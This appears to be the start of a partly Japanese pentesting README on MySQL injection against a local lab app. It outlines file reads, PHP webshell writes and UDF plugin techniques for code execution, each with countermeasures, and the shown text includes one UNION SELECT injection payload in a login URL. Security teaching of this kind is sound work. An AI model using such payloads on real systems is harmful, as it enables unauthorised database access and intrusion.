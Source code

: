 # MySQL Pentesting Techniques





- [Normal request](#normal-request)
- [Query log](#query-log)
- [Basic SQL Injection](#basic-sql-injection)
- [LOAD_FILE - Read file](#load_file-read-file)
  - [前提条件](#前提条件)
  - [手順](#手順)
    - [Step 1: LOAD_FILEでファイルを読み出す](#step-1-load_fileでファイルを読み出す)
  - [対策](#対策)
- [INTO OUTFILE - Write a PHP file to RCE](#into-outfile-write-a-php-file-to-rce)
  - [前提条件](#前提条件-1)
  - [手順](#手順-1)
    - [Step 1: PHPファイルを `INTO OUTFILE` で書き込む](#step-1-phpファイルを-into-outfile-で書き込む)
    - [Step 2: PHP経由でOSコマンドを実行する](#step-2-php経由でosコマンドを実行する)
  - [対策](#対策-1)
- [UDF - Write a plugin file to RCE](#udf-write-a-plugin-file-to-rce)
  - [前提条件](#前提条件-2)
  - [アイデア](#アイデア)
  - [手順](#手順-2)
    - [Step 1: プラグインディレクトリを特定する](#step-1-プラグインディレクトリを特定する)
    - [Step 2: プラグインを書き込む](#step-2-プラグインを書き込む)
    - [Step 3: プラグインをロードしてUDFを作成する](#step-3-プラグインをロードしてudfを作成する)
    - [Step 4: UDF経由でOSコマンドを実行する](#step-4-udf経由でosコマンドを実行する)
  - [対策](#対策-2)




## Normal request

```
http://localhost:8888/mysql.php?user=admin&pass=p4ssw0rd
```


## Query log

```
less +F ./log/mysql/query.log
```


## Basic SQL Injection

**UNION SELECT**

```
http://localhost:8888/mysql.php?user=&pass=' UNION SELECT 1, 2, 3;--+
```
